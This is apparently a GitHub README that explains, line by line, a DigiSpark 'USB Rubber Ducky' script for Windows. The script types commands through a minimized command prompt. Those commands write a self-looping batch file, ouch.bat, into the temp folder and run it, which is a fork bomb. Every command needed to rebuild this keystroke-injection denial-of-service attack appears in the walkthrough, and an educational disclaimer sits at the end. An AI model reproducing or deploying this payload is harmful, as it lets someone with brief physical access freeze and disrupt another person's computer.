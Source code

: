 # Ducky Script for Running a Payload

## Introduction
This code is a Ducky Script designed to execute a payload on a Windows computer using a USB Rubber Ducky or similar device. The script uses the DigiKeyboard library to automate keyboard input and run a series of commands. Please note that this script is intended for educational and research purposes and should be used responsibly and ethically.

## Code Explanation
The code provided is written in Arduino-like language and uses the DigiKeyboard library. Here's a brief explanation of what the code does:

- `#include "DigiKeyboard.h"`: This line includes the DigiKeyboard library, which is essential for controlling the USB Rubber Ducky or similar devices.

- `void setup()`: This is the setup function where you configure the initial settings. It sets pin 1 as an output, which is typically used to control an LED on Model A USB Rubber Ducky devices.

- `void loop()`: The loop function contains the main script that the USB Rubber Ducky will execute repeatedly.

  - `DigiKeyboard.update();`: This line ensures that the DigiKeyboard is ready to send keypresses.

  - `DigiKeyboard.sendKeyStroke(0);`: A null keypress is sent, ensuring that there are no lingering key modifiers from previous inputs.

  - `DigiKeyboard.delay(3000);`: A delay of 3 seconds is introduced.

  - `DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);`: This line sends a key combination (Win + R) to open the "Run" dialog.

  - `DigiKeyboard.delay(100);`: A small delay of 100 milliseconds follows.

  - `DigiKeyboard.println("cmd /k mode con: cols=15 lines=1");`: This line types a command into the "Run" dialog to open a minimized command prompt window.

  - `DigiKeyboard.delay(500);`: A delay of 500 milliseconds is added.

  - `DigiKeyboard.println("(echo :ouch && echo start ouch.bat && echo goto ouch) > %temp%/ouch.bat");`: This command creates a payload in the temporary directory, named "ouch.bat."

  - `DigiKeyboard.delay(300);`: Another small delay.

  - `DigiKeyboard.println("cd %temp% && ouch.bat");`: This command navigates to the temporary directory and executes the "ouch.bat" payload.

  - `DigiKeyboard.delay(500);`: A delay of 500 milliseconds is included.

  - `digitalWrite(1, HIGH);`: This line turns on an LED if you're using a Model A USB Rubber Ducky.

  - `DigiKeyboard.delay(90000);`: The script waits for 90 seconds (this is the delay to give you time to unplug the device).

  - `digitalWrite(1, LOW);`: The LED is turned off.

  - `DigiKeyboard.delay(5000);`: A final delay of 5 seconds.

## Disclaimer
This code is for educational and research purposes only. Unauthorized or malicious use of such code or devices may be illegal and unethical. Ensure that you have the appropriate permissions and legal authorization before using this code. The author and contributors are not responsible for any misuse or illegal activities.

**USE AT YOUR OWN RISK**.
